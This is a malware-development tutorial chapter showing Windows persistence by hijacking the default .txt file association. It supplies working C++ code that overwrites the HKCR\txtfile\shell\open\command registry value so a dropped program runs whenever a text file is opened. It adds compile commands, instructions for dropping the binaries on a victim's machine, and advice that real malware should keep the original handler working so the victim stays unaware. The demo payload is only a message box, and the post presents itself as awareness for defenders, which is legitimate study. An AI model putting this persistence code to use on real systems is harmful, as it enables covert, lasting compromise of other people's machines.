

\newpage
\subsection{75. malware development: persistence - part 9. Default file extension hijacking. Simple C++ example.}

﷽

{width="80%"}    

This article is the result of my own research into one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

{width="80%"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

{width="80%"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

{width="80%"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

{width="80%"}    

{width="80%"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

{width="80%"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

This persistence trick is used by [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework and [Kimsuky](https://attack.mitre.org/groups/G0094/) cyber espionage group. This malware was used in a 2019 campaign against Croatian government agencies by unidentified cyber actors.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[source code on Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
